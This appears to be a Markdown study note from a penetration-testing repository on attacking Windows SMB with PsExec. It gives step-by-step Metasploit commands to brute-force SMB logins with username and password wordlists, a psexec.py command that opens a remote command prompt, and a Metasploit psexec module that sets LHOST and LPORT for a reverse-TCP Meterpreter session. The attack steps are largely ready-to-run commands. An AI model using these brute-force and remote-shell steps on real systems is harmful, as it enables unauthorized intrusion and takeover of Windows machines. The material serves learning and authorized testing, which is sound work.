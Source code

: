 # Exploiting SMB with PsExec

## Contents
- [Methodology](#methodology)
  - [What is PsExec?](#what-is-psexec)
  - [SMB Exploitation with PsExec](#smb-exploitation-with-psexec)
- [Techniques & Tools](#techniques--tools)
  - [Brute Force with MSF](#brute-force-with-msf)
  - [Access with PsExec](#access-with-psexec)
    - [1. psexec.py](#1-psexecpy)
    - [2. Metasploit](#2-metasploit)

## Methodology

### What is PsExec?
- PsExec is a lightweight telnet-replacement developed by Microsoft that allows you to execute processes on remote Windows systems using any user's credentials.
- PsExec authentication is performed via SMB.
- We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.
- It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

### SMB Exploitation with PsExec
- In order to utilize PsExec to gain access to a Windows target, we need to identifiy legitimate user accounts first, along with their respective passwords or password hashes. 
- This can be done by leveraging various tools and techniques.
- However, the most common technique will involve performing an SMB login brute-force attack.
- We can narrow down our brute-force attack to only include common Windows user accounts like...
  - `Administrator`  (which is constant across all Windows installations)
- After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell. 

## Techniques & Tools

- Start with your standard nmap scan (`-sV -sC`) to see what you have.
- Often it will be SMB2 is running on port 445
- **"_Message signing is enabled but not required_"**: KEY!! This means you can brute-force it.

### Brute Force with MSF
```
msfconsole
> search smb_login
> use [that module]
> info
  # to see what it does
> options
> set RHOSTS [target ip]
> set RPORT
  # if it's not set to 445 already
> set SMBDomain
  # if the target is part of a Domain
> set SMBPass [password]
  # if you know it, to verify it
> set SMBUser [username]
  # if you know it, to verify it
> set USER_File [path to text file of usernames]
  # example: /usr/share/metasploit-framework/data/wordlists/common_users.txt
> set PASS_File [path to text file of passwords]
  # example: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
> set verbose false
  # only display successful authentication attempts
> run
```
- That should give you creds... admin cred is what we want.

### Access with PsExec

#### 1. psexec.py

> This is a Windows executable but we are in Linux, so in Linux you need... psexec.py Python program.
```
psexec.py Administrator@[target ip] [command to execute; e.g., cmd.exe]
# or for access without executing a command
psexec.py Administrator@[target ip]
```
- You'll be prompted for the password
- This should give you a cmd command prompt on the target system: `whoami`

#### 2. Metasploit 
> You can do the same thing in MetaSploit
```
> search psexec
  # We're looking for the module that will authenticate on the target via SMB
  # Then it will upload necessary files to establish a meterpreter session
  # Antivirus programs on the target might catch this b/c you are uploading files and executing them.
> use /exploit/windows/smb/psexec
> show payloads
  # check the default payload (should be okay if its windows/meterpreter/reverse_tcp)
> set RHOSTS, LHOST, LPORT, SMBUser, SMBPass
> run
```
- Should give you a meterpreter session
- 

